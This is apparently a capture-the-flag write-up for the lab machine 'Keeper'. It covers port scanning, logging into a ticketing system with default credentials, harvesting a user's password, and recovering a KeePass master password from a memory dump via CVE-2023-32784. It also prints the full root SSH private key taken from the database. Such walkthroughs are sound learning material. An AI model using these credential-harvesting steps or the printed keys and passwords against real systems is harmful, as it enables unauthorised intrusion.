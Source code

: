 ## Machine Info

**Tags:**

Web, Network, Vulnerability Assessment, Databases, Injection, Custom Applications, Protocols, Source Code Analysis, Apache, PostgreSQL, FTP, PHP, Reconnaissance, Password Cracking, SUDO Exploitation, SQL Injection, Remote Code Execution, Clear Text Credentials, Anonymous/Guest Access

## Recon

```bash
# Nmap 7.94 scan initiated Wed Nov 22 06:51:04 2023 as: nmap -sT -sV -sC -O -p 22,80 -oA nmap/detail 10.10.11.227
Nmap scan report for 10.10.11.227
Host is up (0.043s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.18.0 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.8 (96%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Nov 22 06:51:16 2023 -- 1 IP address (1 host up) scanned in 11.73 seconds
```

## Foothold

### tickets.keeper.htb

```html
<html>
  <body>
    <a href="http://tickets.keeper.htb/rt/">To raise an IT support ticket, please visit tickets.keeper.htb/rt/</a>
  </body>
</html>
```

- jump to another site
- some info

```
4.4.4+dfsg-2ubuntu1 
sales@bestpractical.com.
```

- login page: default password (bestpracticing) -> **root:password**

- find sqli: https://www.exploit-db.com/exploits/38459 [x], sqlmap [x]
- find another user

![image-20231122090630070](./Keeper.assets/image-20231122090630070.png)

- get cred from his main page -> **lnorgaard:Welcome2023!**

![image-20231122090655004](./Keeper.assets/image-20231122090655004.png)

## Privilege Escalation

### ssh -> lnorgaard

- basic enumeration

```bash
lnorgaard@keeper:~$ sudo -l
[sudo] password for lnorgaard:
Sorry, user lnorgaard may not run sudo on keeper.

lnorgaard@keeper:~$ uname -a
Linux keeper 5.15.0-78-generic #85-Ubuntu SMP Fri Jul 7 15:25:09 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
lnorgaard@keeper:~$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:c5:39 brd ff:ff:ff:ff:ff:ff
    altname enp3s0
    altname ens160
    inet 10.10.11.227/23 brd 10.10.11.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 dead:beef::250:56ff:feb9:c539/64 scope global dynamic mngtmpaddr
       valid_lft 86399sec preferred_lft 14399sec
    inet6 fe80::250:56ff:feb9:c539/64 scope link
       valid_lft forever preferred_lft forever
       


lnorgaard@keeper:~$ netstat -tuln
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        0      0 127.0.0.1:9000          0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:25            0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN
tcp6       0      0 ::1:25                  :::*                    LISTEN
tcp6       0      0 :::80                   :::*                    LISTEN
tcp6       0      0 :::22                   :::*                    LISTEN
udp        0      0 127.0.0.53:53           0.0.0.0:*
udp        0      0 0.0.0.0:68              0.0.0.0:*
```

- zip file, unzip it, get two related pass-files

```bash
two special files
-rwxr-x--- 1 lnorgaard lnorgaard 253395188 May 24 12:51 KeePassDumpFull.dmp
-rwxr-x--- 1 lnorgaard lnorgaard      3630 May 24 12:51 passcodes.kdbx
```

### lnorgaard -> root

- cracking these two files

1. [vdohney/keepass-password-dumper: Original PoC for CVE-2023-32784 (github.com)](https://github.com/vdohney/keepass-password-dumper) -> crack x.dmp to get some ambiguous master password

```
$ cat passwds
●ødgrød med fløde
●Ïdgrød med fløde
●,dgrød med fløde
●ldgrød med fløde
●`dgrød med fløde
●-dgrød med fløde
●'dgrød med fløde
●]dgrød med fløde
●§dgrød med fløde
●Adgrød med fløde
●Idgrød med fløde
●:dgrød med fløde
●=dgrød med fløde
●_dgrød med fløde
●cdgrød med fløde
●Mdgrød med fløde
```

2. google it based on the concrete text -> get a meaningful phrase -> **rødgrød med fløde**

![image-20231122091617803](./Keeper.assets/image-20231122091617803.png)

3. crack x.kdbx to get putty-format private key

![image-20231122091642384](./Keeper.assets/image-20231122091642384.png)

4. use puttygen based on private key to generate ssh private key

```bash
$ cat key
PuTTY-User-Key-File-3: ssh-rsa
Encryption: none
Comment: rsa-key-20230519
Public-Lines: 6
AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
Private-Lines: 14
AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0

$ puttygen key -O private-openssh -o id_rsa

$ chmod 600 id_rsa
```

5. ssh root using this private key, id_rsa

```bash
$ ssh -i id_rsa root@10.10.11.227
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have new mail.
Last login: Tue Aug  8 19:00:06 2023 from 10.10.14.41
root@keeper:~# ls
root.txt  RT30000.zip  SQL
```

